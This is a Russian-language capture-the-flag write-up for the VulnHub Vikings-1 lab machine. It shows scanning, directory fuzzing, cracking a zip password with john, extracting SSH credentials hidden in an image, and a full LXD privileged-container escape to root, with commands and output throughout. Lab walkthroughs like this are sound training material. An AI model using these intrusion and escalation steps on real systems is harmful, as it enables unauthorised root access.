


# VulnHub - Vikings-1

📅 Дата: 2025-07-10  
🧠 Сложность:  
💻 IP-адрес: 192.168.56.126  

---

## Sugar

```bash
nmap_ctf() {
  local ip=$1
  sudo nmap -sS -p- -Pn --max-parallelism 100 --min-rate 1000 -v -oN nmap-sS.txt $ip && nmap -sT -Pn -sV -T4 -A -v -p "$(grep -oP \"^[0-9]+(?=/tcp\s+open)\" nmap-sS.txt | sort -n | paste -sd \",\")" -oN nmap-sV.txt $ip
}
```


## 🔍 Сканирование

```bash
export ip=192.168.56.126 && nmap_ctf $ip
```

### nmap  
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 59:d4:c0:fd:62:45:97:83:15:c0:15:b2:ac:25:60:99 (RSA)
|   256 7e:37:f0:11:63:80:15:a3:d3:9d:43:c6:09:be:fb:da (ECDSA)
|_  256 52:e9:4f:71:bc:14:dc:00:34:f2:a7:b3:58:b5:0d:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.29
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2020-10-29 21:07  site/
|_
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Index of /
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
MAC Address: 08:00:27:85:72:4B (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|storage-misc
Running (JUST GUESSING): Linux 4.X|5.X|2.6.X|3.X (97%), Synology DiskStation Manager 5.X (91%)
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:linux:linux_kernel:2.6.32 cpe:/o:linux:linux_kernel:3 cpe:/a:synology:diskstation_manager:5.2
Aggressive OS guesses: Linux 4.15 - 5.8 (97%), Linux 5.0 - 5.4 (97%), Linux 5.0 - 5.5 (95%), Linux 5.4 (91%), Linux 2.6.32 (91%), Linux 3.10 - 4.11 (91%), Linux 3.2 - 4.9 (91%), Linux 3.4 - 3.10 (91%), Synology DiskStation Manager 5.2-5644 (91%), Linux 2.6.32 - 3.10 (91%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 31.143 days (since Mon Jun  9 02:18:43 2025)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=248 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

---

## 🕵️ Enumeration

### ffuf
```
┌──(kali㉿0x2d-pentest)-[~/Labs/VulnHub/Vikings-1/scans]
└─$ ffuf -fc 404 -t 100 -w /media/sf_Exchange/Dictionaries/Dir/directory-list-2.3-medium.txt -u http://192.168.56.126/site/FUZZ -ic -c

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.56.126/site/FUZZ
 :: Wordlist         : FUZZ: /media/sf_Exchange/Dictionaries/Dir/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 404
________________________________________________

                        [Status: 200, Size: 4419, Words: 720, Lines: 69, Duration: 13ms]
images                  [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 10ms]
css                     [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 99ms]
js                      [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 93ms]
                        [Status: 200, Size: 4419, Words: 720, Lines: 69, Duration: 182ms]
:: Progress: [220547/220547] :: Job [1/1] :: 1923 req/sec :: Duration: [0:03:32] :: Errors: 0 ::
```

Файл **war.txt** содержит дополнительный endpoint `/war-is-over`, который выдает закодированный base64 текст


Закодированный текст - оказался файлом zip
```
┌──(kali㉿0x2d-pentest)-[~/Labs/VulnHub/Vikings-1/exploits]
└─$ curl http://192.168.56.126/site/war-is-over/ | base64 -d > text.txt
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 1837k  100 1837k    0     0  34.1M      0 --:--:-- --:--:-- --:--:-- 34.5M
                                                                                                                  
┌──(kali㉿0x2d-pentest)-[~/Labs/VulnHub/Vikings-1/exploits]
└─$ cat text.txt                                                       
PK3c�#S܆�
         king�AWz�L��<l~���v�X"���d��
...

┌──(kali㉿0x2d-pentest)-[~/Labs/VulnHub/Vikings-1/exploits]
└─$ file text.txt                               
text.txt: Zip archive data, at least v5.1 to extract, compression method=AES Encrypted
                                                                                                                  
┌──(kali㉿0x2d-pentest)-[~/Labs/VulnHub/Vikings-1/exploits]
└─$ mv text.txt a.zip
```

Взламываю с помощью `john`
```
┌──(kali㉿0x2d-pentest)-[~/Labs/VulnHub/Vikings-1/exploits]
└─$ zip2john a.zip > hash.txt    
                                                                                                                  
┌──(kali㉿0x2d-pentest)-[~/Labs/VulnHub/Vikings-1/exploits]
└─$ john --wordlist=/media/sf_Exchange/Dictionaries/rockyou.txt hash.txt       
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 128/128 SSE2 4x])
Cost 1 (HMAC size) is 1410760 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ragnarok123      (a.zip/king)     
1g 0:00:00:20 DONE (2025-07-10 06:29) 0.04938g/s 14664p/s 14664c/s 14664C/s redson..papitotequiero
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                                                                                                                  
┌──(kali㉿0x2d-pentest)-[~/Labs/VulnHub/Vikings-1/exploits]
└─$ john --show hash.txt       
a.zip/king:ragnarok123:king:a.zip:a.zip

1 password hash cracked, 0 left
```

Распакованный файл оказался изображением
```
┌──(kali㉿0x2d-pentest)-[~/Labs/VulnHub/Vikings-1/exploits]
└─$ file king    
king: JPEG image data, Exif standard: [TIFF image data, big-endian, direntries=14, height=4000, bps=0, PhotometricInterpretation=RGB, description=Viking ships on the water under the sunlight and dark storm. Invasion in the storm. 3D illustration.; Shutterstock ID 100901071, orientation=upper-left, width=6000], baseline, precision 8, 1600x1067, components 3
```

Смотрю мета даные
```
┌──(kali㉿0x2d-pentest)-[~/Labs/VulnHub/Vikings-1/exploits]
└─$ exiftool king         
ExifTool Version Number         : 12.76
File Name                       : king
Directory                       : .
File Size                       : 1430 kB
File Modification Date/Time     : 2021:09:03 06:30:03-04:00
File Access Date/Time           : 2025:07:10 06:33:33-04:00
File Inode Change Date/Time     : 2025:07:10 06:33:00-04:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
Exif Byte Order                 : Big-endian (Motorola, MM)
Photometric Interpretation      : RGB
Image Description               : Viking ships on the water under the sunlight and dark storm. Invasion in the storm. 3D illustration.; Shutterstock ID 1009010713
Orientation                     : Horizontal (normal)
Samples Per Pixel               : 3
X Resolution                    : 300
Y Resolution                    : 300
Resolution Unit                 : inches
Software                        : Adobe Photoshop CC 2019 (Windows)
Modify Date                     : 2018:11:26 10:32:02
Artist                          : vlastas
Exif Version                    : 0221
Color Space                     : Uncalibrated
Exif Image Width                : 1600
Exif Image Height               : 1067
Compression                     : JPEG (old-style)
Thumbnail Offset                : 558
Thumbnail Length                : 5613
Current IPTC Digest             : 73f42d7d127f00bdd0e556910f4a85a8
Coded Character Set             : UTF8
Application Record Version      : 4
Caption-Abstract                : Viking ships on the water under the sunlight and dark storm. Invasion in the storm. 3D illustration.; Shutterstock ID 1009010713
By-line                         : vlastas
Object Name                     : 1009010713
Original Transmission Reference : 53616c7465645f5f0f79ebad28071734
Keywords                        : 3d, ancient, attack, battle, boat, culture, dark, denmark, drakkar, dramatic, dusk, engraved, evening, history, illustration, invasion, leadership, longboat, men, nautical, nordic, norse, north, northern, norway, occupation, river, sail, sailboat, scandinavian, shield, ship, storm, stormy, sun, sunbeam, sunlight, sunrise, sunset, vandal, vessel, viking, viking ship, war, warrior, water, weather, wind, windstorm, wooden
IPTC Digest                     : 73f42d7d127f00bdd0e556910f4a85a8
Displayed Units X               : inches
Displayed Units Y               : inches
Print Style                     : Centered
Print Position                  : 0 0
Print Scale                     : 1
Global Angle                    : 30
Global Altitude                 : 30
URL List                        : 
Slices Group Name               : viking021
Num Slices                      : 1
Pixel Aspect Ratio              : 1
Photoshop Thumbnail             : (Binary data 5613 bytes, use -b option to extract)
Has Real Merged Data            : Yes
Writer Name                     : Adobe Photoshop
Reader Name                     : Adobe Photoshop CC 2019
Photoshop Quality               : 12
Photoshop Format                : Standard
XMP Toolkit                     : Adobe XMP Core 5.6-c145 79.163499, 2018/08/13-16:40:22
Format                          : image/jpeg
Legacy IPTC Digest              : 250DA4DEC6F34E708125EF03F795F091
Transmission Reference          : 53616c7465645f5f0f79ebad2807173403390e2bb3edd8e2c4479d390bd71e50
Credit                          : Shutterstock / vlastas
Source                          : Shutterstock
Color Mode                      : RGB
ICC Profile Name                : 
Document ID                     : adobe:docid:photoshop:2d821c53-a3ca-e346-80f6-118a95cc9817
Instance ID                     : xmp.iid:5bef0ca9-3ef9-e44f-865c-f39bdc472764
Original Document ID            : A609744630A618A935A1D637005C673F
Create Date                     : 2018:11:26 10:28:18-06:00
Metadata Date                   : 2018:11:26 10:32:02-06:00
Creator Tool                    : Adobe Photoshop CC 2019 (Windows)
Description                     : Viking ships on the water under the sunlight and dark storm. Invasion in the storm. 3D illustration.; Shutterstock ID 1009010713
Title                           : 1009010713
Subject                         : 3d, ancient, attack, battle, boat, culture, dark, denmark, drakkar, dramatic, dusk, engraved, evening, history, illustration, invasion, leadership, longboat, men, nautical, nordic, norse, north, northern, norway, occupation, river, sail, sailboat, scandinavian, shield, ship, storm, stormy, sun, sunbeam, sunlight, sunrise, sunset, vandal, vessel, viking, viking ship, war, warrior, water, weather, wind, windstorm, wooden
Creator                         : vlastas
History Action                  : saved, converted, derived, saved, saved, converted, derived, saved
History Instance ID             : xmp.iid:642d0712-667d-2d43-8e5e-dcde3e7be5bf, xmp.iid:f9584b87-136c-8c43-8d2b-121dfc42e1c3, xmp.iid:f312a9e4-c83e-5046-b32f-7d31285efcc6, xmp.iid:5bef0ca9-3ef9-e44f-865c-f39bdc472764
History When                    : 2018:11:26 10:31:55-06:00, 2018:11:26 10:31:55-06:00, 2018:11:26 10:32:02-06:00, 2018:11:26 10:32:02-06:00
History Software Agent          : Adobe Photoshop CC 2019 (Windows), Adobe Photoshop CC 2019 (Windows), Adobe Photoshop CC 2019 (Windows), Adobe Photoshop CC 2019 (Windows)
History Changed                 : /, /, /, /
History Parameters              : from image/jpeg to image/tiff, converted from image/jpeg to image/tiff, from image/tiff to image/jpeg, converted from image/tiff to image/jpeg
Derived From Instance ID        : xmp.iid:f312a9e4-c83e-5046-b32f-7d31285efcc6
Derived From Document ID        : adobe:docid:photoshop:a311ad0b-1bf9-f446-b96f-1960b71bb9bf
Derived From Original Document ID: A609744630A618A935A1D637005C673F
DCT Encode Version              : 100
APP14 Flags 0                   : [14]
APP14 Flags 1                   : (none)
Color Transform                 : YCbCr
Image Width                     : 1600
Image Height                    : 1067
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:4:4 (1 1)
Image Size                      : 1600x1067
Megapixels                      : 1.7
Thumbnail Image                 : (Binary data 5613 bytes, use -b option to extract)
```

Извлекаю данные с помощью binwalk
```
┌──(kali㉿0x2d-pentest)-[~/Labs/VulnHub/Vikings-1/exploits]
└─$ binwalk -e king

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
1429567       0x15D03F        Zip archive data, at least v2.0 to extract, compressed size: 53, uncompressed size: 92, name: user

WARNING: One or more files failed to extract: either no utility was found or it's unimplemented
```

```
┌──(kali㉿0x2d-pentest)-[~/Labs/VulnHub/Vikings-1/exploits]
└─$ cd _king.extracted 
                                                                                                                  
┌──(kali㉿0x2d-pentest)-[~/…/VulnHub/Vikings-1/exploits/_king.extracted]
└─$ ls -la
total 16
drwxrwxr-x 2 kali kali 4096 Jul 10 08:12 .
drwxrwxr-x 3 kali kali 4096 Jul 10 08:12 ..
-rw-rw-r-- 1 kali kali  195 Jul 10 08:12 15D03F.zip
-rw-r--r-- 1 kali kali   92 Sep  3  2021 user
                                                                                                                  
┌──(kali㉿0x2d-pentest)-[~/…/VulnHub/Vikings-1/exploits/_king.extracted]
└─$ cat user          
//FamousBoatbuilder_floki@vikings                                     
//f@m0usboatbuilde7 
```

## 📂 Получение доступа

Пробую ssh
```
┌──(kali㉿0x2d-pentest)-[~/…/VulnHub/Vikings-1/exploits/_king.extracted]
└─$ ssh FamousBoatbuilder_floki@192.168.56.126       
The authenticity of host '192.168.56.126 (192.168.56.126)' can't be established.
ED25519 key fingerprint is SHA256:volom5GRMcetvgfJsyVTXVnNY0FUA6W1k/5fsdHs9T4.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.56.126' (ED25519) to the list of known hosts.
FamousBoatbuilder_floki@192.168.56.126's password: 
Permission denied, please try again.
FamousBoatbuilder_floki@192.168.56.126's password: 
Permission denied, please try again.
FamousBoatbuilder_floki@192.168.56.126's password: 
FamousBoatbuilder_floki@192.168.56.126: Permission denied (publickey,password).
                                                                                                                  
┌──(kali㉿0x2d-pentest)-[~/…/VulnHub/Vikings-1/exploits/_king.extracted]
└─$ ssh floki@192.168.56.126 
floki@192.168.56.126's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-154-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Jul 10 12:17:13 UTC 2025

  System load:  0.16              Processes:             96
  Usage of /:   52.6% of 8.79GB   Users logged in:       0
  Memory usage: 28%               IP address for enp0s3: 192.168.56.126
  Swap usage:   0%


0 updates can be applied immediately.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


You have mail.
Last login: Sat Sep  4 04:38:04 2021 from 10.42.0.1
floki@vikings:~$ 
```

Загружаю linpeas.sh
```
┌──(kali㉿0x2d-pentest)-[~/Labs/VulnHub/Vikings-1/exploits]
└─$ scp linpeas.sh floki@192.168.56.126:/tmp/                                                          
floki@192.168.56.126's password: 
linpeas.sh
```

Подсвечивается уязвимость эскалации привилегий через lxd



## ⚙️ Привилегии

Проверяю и настраиваю окружение
```
floki@vikings:/tmp$ which lxd && which lxc
/usr/bin/lxd
/usr/bin/lxc
```

При инициализации выбираю `none` для `IPv6`, остальное по умолчанию (`enter`)
```
floki@vikings:/tmp$ lxd init
Would you like to use LXD clustering? (yes/no) [default=no]: 
Do you want to configure a new storage pool? (yes/no) [default=yes]: 
Name of the new storage pool [default=default]: 
Name of the storage backend to use (btrfs, dir, lvm) [default=btrfs]: 
Create a new BTRFS pool? (yes/no) [default=yes]: 
Would you like to use an existing block device? (yes/no) [default=no]: 
Size in GB of the new loop device (1GB minimum) [default=15GB]: 
Would you like to connect to a MAAS server? (yes/no) [default=no]: 
Would you like to create a new local network bridge? (yes/no) [default=yes]: 
What should the new bridge be called? [default=lxdbr0]: 
What IPv4 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]: 
What IPv6 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]: none
Would you like LXD to be available over the network? (yes/no) [default=no]: 
Would you like stale cached images to be updated automatically? (yes/no) [default=yes] 
Would you like a YAML "lxd init" preseed to be printed? (yes/no) [default=no]:
```

Скачиваю готовый образ для эскалации Alpine
```
┌──(kali㉿0x2d-pentest)-[~/Labs/VulnHub/Vikings-1/exploits]
└─$ git clone https://github.com/saghul/lxd-alpine-builder
Cloning into 'lxd-alpine-builder'...
remote: Enumerating objects: 57, done.
remote: Counting objects: 100% (15/15), done.
remote: Compressing objects: 100% (11/11), done.
remote: Total 57 (delta 6), reused 8 (delta 4), pack-reused 42 (from 1)
Receiving objects: 100% (57/57), 3.12 MiB | 2.20 MiB/s, done.
Resolving deltas: 100% (19/19), done.
```

Загружаю образ на жертву
```
┌──(kali㉿0x2d-pentest)-[~/Labs/VulnHub/Vikings-1/exploits]
└─$ cd lxd-alpine-builder
                                                                                                                   
┌──(kali㉿0x2d-pentest)-[~/…/VulnHub/Vikings-1/exploits/lxd-alpine-builder]
└─$ ls -la
total 3236
drwxrwxr-x 3 kali kali    4096 Jul 10 09:43 .
drwxrwxr-x 4 kali kali    4096 Jul 10 09:43 ..
-rw-rw-r-- 1 kali kali 3259593 Jul 10 09:43 alpine-v3.13-x86_64-20210218_0139.tar.gz
-rwxrwxr-x 1 kali kali    8064 Jul 10 09:43 build-alpine
drwxrwxr-x 8 kali kali    4096 Jul 10 09:43 .git
-rw-rw-r-- 1 kali kali   26530 Jul 10 09:43 LICENSE
-rw-rw-r-- 1 kali kali     768 Jul 10 09:43 README.md
                                                                                                                   
┌──(kali㉿0x2d-pentest)-[~/…/VulnHub/Vikings-1/exploits/lxd-alpine-builder]
└─$ scp alpine-v3.13-x86_64-20210218_0139.tar.gz floki@192.168.56.126:/tmp/ 
floki@192.168.56.126's password: 
alpine-v3.13-x86_64-20210218_0139.tar.gz                                         100% 3183KB  24.2MB/s   00:00
```

Импортирую образ
```
floki@vikings:/tmp$ lxc image import ./alpine*.tar.gz --alias alpine
Image imported with fingerprint: cd73881adaac667ca3529972c7b380af240a9e3b09730f8c8e4e6a23e1a7892b
```

Создаю и запускаю привилегированный контейнер
```
floki@vikings:/tmp$ lxc init alpine privesc -c security.privileged=true
Creating privesc
floki@vikings:/tmp$ lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
Device host-root added to privesc
floki@vikings:/tmp$ lxc start privesc
floki@vikings:/tmp$ lxc exec privesc /bin/sh
~ # id
uid=0(root) gid=0(root)
```

Далее получаю root на хосте
```
~ # chroot /mnt/root bash
root@privesc:/# id
uid=0(root) gid=0(root) groups=0(root)
```

Читаю флаги
```
root@privesc:/# cd /root
root@privesc:~# ls -la
total 48
drwx------  5 root root 4096 Sep  4  2021 .
drwxr-xr-x 24 root root 4096 Sep  3  2021 ..
-rw-------  1 root root   33 Sep  3  2021 root.txt
root@privesc:~# cat root.txt
f0b98d4387ff6da77317e582da98bf31
root@privesc:~# cd /home/
root@privesc:/home# ls
floki  ragnar
root@privesc:/home# cd ragnar/
root@privesc:/home/ragnar# ls
user.txt
root@privesc:/home/ragnar# cat user.txt 
4bf930187d0149a9e4374a4e823f867d
root@privesc:/home/ragnar# 
```


## 🏁 Флаги

- User flag: 4bf930187d0149a9e4374a4e823f867d 
- Root flag: f0b98d4387ff6da77317e582da98bf31 

---
